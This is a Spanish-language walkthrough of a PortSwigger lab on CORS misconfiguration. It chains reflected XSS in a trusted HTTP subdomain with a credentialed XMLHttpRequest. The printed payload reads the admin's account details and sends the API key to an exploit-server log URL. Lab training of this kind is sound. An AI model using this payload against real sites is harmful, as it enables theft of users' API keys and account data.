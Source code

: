 ```yaml
---
title: "CORS vulnerability with trusted insecure protocols"
description: "Laboratorio de Portswigger sobre CORS"
date: 2025-04-06 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - CORS
tags:
  - Portswigger Labs
  - CORS
  - CORS vulnerability with trusted insecure protocols
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `sitio web` tiene una `configuración` de `Cross-Origin Resource Sharing (CORS)` insegura, debido a que `confía` en todos los `subdominios` sin importar el `protocolo`. Para `resolver` el `laboratorio`, debemos crear un `script` de `JavaScript` que use `Cross-Origin Resource Sharing (CORS)` para obtener la `clave API` del `administrador` y `subir` el `payload` a nuestro `servidor de explotación`. El `laboratorio` se considerará `resuelto` cuando `enviemos con éxito` la `clave API` del `administrador`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las siguientes credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` vemos esto

![](/assets/img/CORS-Lab-3/image_1.png)

Si pulsamos en `View details` vemos que podemos `checkear` el `stock` del `producto` en diferentes `ciudades`

![](/assets/img/CORS-Lab-3/image_2.png)

Si pulsamos sobre `Check stock` nos `redirigirá` a `https://stock.0ae60051047d925c815bc08500f00081.web-security-academy.net/?productId=1&storeId=1` y nos `mostrará` el `stock` del `producto`

![](/assets/img/CORS-Lab-3/image_3.png)

Hacemos `click` sobre  `My account` y nos `logueamos` con las credenciales `wiener:peter`

![](/assets/img/CORS-Lab-3/image_4.png)

Vemos que podemos `cambiar` nuestro `email` y una clave `API`

![](/assets/img/CORS-Lab-3/image_5.png)

Si nos fijamos en la `petición` que se hace a `/accountDetails` cuando nos `logueamos`, veremos que el `servidor` nos `responde` con la cabecera `Access-Control-Allow-Credentials: true`. Esto `no lo hace vulnerable a CORS`, para que sea `vulnerable` tenemos que `ser capaces de controlar el origen de la petición`

![](/assets/img/CORS-Lab-3/image_6.png)

Para comprobar si podemos `manipular` el `origen` de la `petición` mandamos esta `petición` al `Repeater` y probamos a `añadir` las cabeceras `Origin: null` y `Origin: https://exploit-0a2f005e043492fb81bebfa3012e00eb.exploit-server.net/log`. En este caso `el servidor no nos deja manipular el origen`

![](/assets/img/CORS-Lab-3/image_7.png)

![](/assets/img/CORS-Lab-3/image_8.png)

Cuando `pulsamos` sobre `Check stock` vemos que la petición se hace desde un subdominio `https://stock.0ae60051047d925c815bc08500f00081.web-security-academy.net`

![](/assets/img/CORS-Lab-3/image_9.png)

Si probamos a `insertar` este `dominio` como `origen` si que `funciona` porque `está en la whitelist`

![](/assets/img/CORS-Lab-3/image_10.png)

La pulsar sobre la función de `Check stock` nos `redirige` a  `http://stock.0ae60051047d925c815bc08500f00081.web-security-academy.net/?productId=1&storeId=1`, si `inyectamos código JavaScript` en este `parámetro` de la URL `http://stock.0ae60051047d925c815bc08500f00081.web-security-academy.net/?productId=<script>alert(3)</script>&storeId=1` veremos que es `vulnerable` a `XSS`

![](/assets/img/CORS-Lab-3/image_11.png)

Una vez comprobado que ese `dominio` es `vulnerable` a `XSS` y que está en la `whitelist`, nos dirigimos al `Exploit server` y `pegamos` este `payload`

```
<script> document.location="http://stock.0ae60051047d925c815bc08500f00081.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0ae60051047d925c815bc08500f00081.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='http://exploit-0a2f005e043492fb81bebfa3012e00eb.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>
```

![](/assets/img/CORS-Lab-3/image_12.png)

Pulsamos sobre `View exploit`, nos dirigimos al `Access log` y vemos que hemos obtenido `información` de nuestro `usuario`

![](/assets/img/CORS-Lab-3/image_13.png)

Una vez `comprobado` que `funciona`, pulsamos sobre `Deliver exploit to victim` y nos dirigimos al `Access log` nuevamente

![](/assets/img/CORS-Lab-3/image_14.png)

Copiamos la `cadena de texto` en el `Decoder` y la `URL decodeamos`

![](/assets/img/CORS-Lab-3/image_15.png)

Nos `copiamos` la `apiKey`, `pulsamos` sobre `Submit solution` y `completamos` el `laboratorio`

![](/assets/img/CORS-Lab-3/image_16.png)
